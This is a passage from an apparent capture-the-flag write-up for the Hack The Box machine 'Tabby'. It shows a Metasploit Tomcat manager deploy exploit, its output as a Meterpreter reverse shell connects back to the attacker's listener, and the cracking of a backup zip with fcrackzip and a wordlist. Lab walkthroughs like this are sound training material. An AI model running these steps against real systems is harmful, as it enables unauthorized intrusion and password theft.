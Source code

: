 ```bash
   VHOST                             no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.21      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Java Universal
```

I got shell

```bash
msf5 exploit(multi/http/tomcat_mgr_deploy) > exploit

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] Using manually select target "Java Universal"
[*] Uploading 6275 bytes as 0msdxB5K7cAihXhlrKiT9J1oAWeOll.war ...
[*] Executing /0msdxB5K7cAihXhlrKiT9J1oAWeOll/dMpGF3e3YmV.jsp...
[*] Undeploying 0msdxB5K7cAihXhlrKiT9J1oAWeOll ...
[*] Sending stage (53904 bytes) to 10.10.10.194
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.10.10.194:50400) at 2020-06-22 12:30:12 +0530

meterpreter >
```

## Getting User shell

While enumerating, found there is a backup file in `/var/www/html/files`

```bash
tomcat@tabby:/var/www/html/files$ ls
ls
16162020_backup.zip  archive  revoked_certs  statement
```

Downloaded to machine and it askes for password to unzip, I used `fcrackzip` to find the password.

```bash
root@kali:~/CTF/HTB/Boxes/Tabby# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 

PASSWORD FOUND!!!!: pw == admin@it
root@kali:~/CTF/HTB/Boxes/Tabby# unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt
```
